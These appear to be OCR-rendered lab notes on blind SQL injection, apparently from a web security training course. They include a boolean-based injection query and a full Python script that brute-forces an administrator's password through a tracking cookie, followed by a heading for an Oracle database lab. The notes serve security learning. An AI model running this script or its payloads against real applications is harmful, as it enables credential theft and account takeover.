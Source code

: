 select tracking-id from tracking-table where trackingId = 'RVLfBu6s9EZRIVYN' AND (SELECT SUBSTRING(PASSWORD, 1,1 ) FROM USERS WHERE USERNMAE = 'ADMINISTRATOR')  = 'A' -- '

USE BURPSUITE TO BRUTEFORCE THE ENTRIES

USING PYTHON FOR THE SCRIPTING

  
```python
	import sys
		import requests
		import urllib3
		import urllib
		
		urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
		
		proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
		
		def sqli_password(url):
		    password_extracted = ""
		    for i in range(1,21):
		        for j in range(32,126):
		            sqli_payload = "' and (select ascii(substring(password,%s,1)) from users where username='administrator')='%s'--" % (i,j)
		            sqli_payload_encoded = urllib.parse.quote(sqli_payload)
		            cookies = {'TrackingId': 'dCqiyv8E4BfhhpHL' + sqli_payload_encoded, 'session': 'bdb4dZfXEcfucciq98jCIYBJW4NL7y7M'}
		            r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
		            if "Welcome" not in r.text:
		                sys.stdout.write('\r' + password_extracted + chr(j))
		                sys.stdout.flush()
		            else:
		                password_extracted += chr(j)
		                sys.stdout.write('\r' + password_extracted)
		                sys.stdout.flush()
		                break
		
		def main():
		    if len(sys.argv) != 2:
		        print("(+) Usage: %s <url>" % sys.argv[0])
		        print("(+) Example: %s www.example.com" % sys.argv[0])
		
		    url = sys.argv[1]
		    print("(+) Retrieving administrator password...")
		    sqli_password(url)
		
		if __name__ == "__main__":
		    main()
```



LAB#8 EXAMINING ORACLE DATABASE 
--
QUERYING DATABASE TYPE AND VERSION  ON ORACLE
	SQLI- PRODUCT CATEGORY FILTER
	ENDGOAL--> PRINT DATABASE TYPE AND VERSION
